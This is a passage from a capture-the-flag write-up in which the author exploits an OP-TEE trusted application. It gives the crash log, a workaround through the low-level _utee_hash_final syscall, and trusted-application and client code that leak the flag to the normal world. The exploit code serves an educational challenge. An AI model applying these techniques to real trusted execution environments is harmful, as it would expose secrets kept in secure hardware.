 ```
E/LD:  region  3: va 0x40011000 pa 0x00000000 size 0x004000 flags rw-s (ldelf)
E/LD:  region  4: va 0x40015000 pa 0x00000000 size 0x001000 flags r--s
E/LD:  region  5: va 0x40016000 pa 0x00000000 size 0x001000 flags rw-s (stack)
E/LD:  region  6: va 0x40017000 pa 0x4487e070 size 0x001000 flags rw-- (param)
E/LD:  region  7: va 0x4008d000 pa 0x00000000 size 0x019000 flags r-xs [0]
E/LD:  region  8: va 0x400a6000 pa 0x00000000 size 0x00d000 flags rw-s [0]
E/LD:   [0] 41414141-4141-4141-4141-414141414141 @ 0x4008d000
E/LD:  Call stack:
E/LD:   0x40091408
E/LD:   0x400914b0
E/LD:   0x4008d2c4
E/LD:   0x40094b50
E/LD:   0x40094940
E/LD:   0x4008d32c
```
After examining the OP-TEE kernel library code, it becomes clear that the issue lies in the `TEE_DigestDoFinal` function—specifically in how it handles non-zero return values from the syscall:
```c
out:
	if (res != TEE_SUCCESS &&
	    res != TEE_ERROR_SHORT_BUFFER)
		TEE_Panic(res); 
```
Thus, the panic occurs because our replaced `final` method returns a non-zero value.

### Attempt 0x02 
We can resolve this issue by rewriting the necessary call using a lower-level API:
```c
  char msg[]      = "kek";
  size_t hash_len = sizeof(flag);
  _utee_hash_final(*(uint32_t*)((char*)operation+0x58), msg, sizeof(msg)-1, flag, &hash_len);
```
### Almost win
This time, everything executes exactly as originally intended, and the flag appears in the Secure World logs.
```
D/TA:  __GP11_TA_InvokeCommandEntryPoint:123 xploit
I/TC: [SAS] op=1 id=0 buf=0x0 len=4096
I/TC: [SAS] op=3 id=0 buf=0x40016e28 len=40
I/TC: [SAS] op=1 id=1 buf=0x0 len=432
I/TC: [SAS] op=2 id=1 buf=0x0 len=0
I/TC: [SAS] op=3 id=1 buf=0x40016e10 len=8
D/TA:  exploit:96 flag @ SAS{y0u_got_it_now_do_the_same_remotely}
```
One final step remains—to transfer this flag from the TA back to the client and display it on screen. For this, we'll add to the TA code:
```c
TEE_Result TA_InvokeCommandEntryPoint(void __maybe_unused *sess_ctx,
  uint32_t cmd_id,
  uint32_t param_types, TEE_Param params[4])
{
  DMSG("xploit\n");
  exploit();
  TEE_MemMove(params[0].memref.buffer, flag, params[0].memref.size);
  return TEE_SUCCESS;
}
```
And in the client code:
```c
  op.paramTypes = TEEC_PARAM_TYPES(TEEC_MEMREF_TEMP_OUTPUT, TEEC_NONE, TEEC_NONE, TEEC_NONE);
  op.params[0].tmpref.buffer = flag;
  op.params[0].tmpref.size = sizeof(flag);

  res = TEEC_InvokeCommand(&sess, 0, &op, &err_origin);
```